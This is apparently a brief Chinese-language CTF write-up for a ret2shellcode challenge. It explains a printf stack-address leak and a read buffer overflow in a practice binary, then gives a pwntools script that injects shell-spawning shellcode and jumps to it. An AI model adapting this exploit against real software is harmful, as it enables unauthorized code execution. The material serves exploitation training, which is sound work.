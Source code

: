 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240118234607205](../assets/img/old_imgs/image-20240118234607205.png)

- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```




